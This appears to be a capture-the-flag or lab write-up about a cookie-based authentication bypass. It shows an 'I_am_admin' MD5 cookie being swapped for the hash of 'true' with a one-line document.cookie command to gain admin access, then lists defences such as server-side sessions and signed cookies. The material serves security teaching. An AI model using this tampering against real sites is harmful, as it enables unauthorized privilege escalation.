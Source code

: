 # Exploit: Cookie Manipulation to Gain Admin Access

## Description
This exploit demonstrates how a poorly implemented cookie-based authentication mechanism can be bypassed by manipulating cookie values.

### Case Example
1. Observed Cookie:
   On the home page or survey page, inspecting the cookies using `document.cookie` in the browser console reveals:
I_am_admin=68934a3e9455fa72420237eb05902327

2. Analysis:
- Identified the encoding type as MD5.
- Decrypting the value revealed it was set to `false`.

3. Manipulation:
- Changed the value to `true` by encrypting it into MD5 format:
  ```
  b326b5062b2f0e69046810717534cb09
  ```

- Updated the cookie using the browser console:
  ```javascript
  document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09";
  ```

4. Result:
- Gained admin access.

## How to Avoid

### 1. Avoid Using Cookies to Define Privileges
- Cookies are client-side and can be manipulated. Avoid using them to define admin or user roles.

### 2. Implement Secure Authentication Mechanisms
- Use server-side session management for user authentication and roles.

### 3. Encrypt and Sign Cookies
- If cookies must be used, encrypt their contents and validate them with a server-side signature to prevent tampering.

### 4. Validate Roles Server-Side
- Always validate user roles on the server-side before granting access to sensitive features or data.

### 5. Secure Cookie Flags
- Set cookies with the `HttpOnly` and `Secure` flags to reduce their exposure to JavaScript and prevent transmission over unencrypted connections.

### 6. Regular Security Audits
- Periodically review the application for vulnerabilities like improper use of cookies.
